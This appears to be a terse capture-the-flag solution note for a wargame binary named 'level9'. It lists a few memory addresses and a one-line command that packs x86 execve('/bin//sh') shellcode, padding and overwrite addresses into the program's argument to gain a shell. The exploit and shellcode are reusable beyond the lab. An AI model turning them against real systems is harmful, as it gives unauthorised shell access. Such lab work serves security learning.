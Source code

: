 0x804a008
0x0804a00c = adress of string in this
0x0804a010

./level9 $(python -c 
	'import struct; print struct.pack("<I", 0x0804a010) 
		+ "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" 
		+ "A" * 80 + struct.pack("<I", 0x0804a00c)')
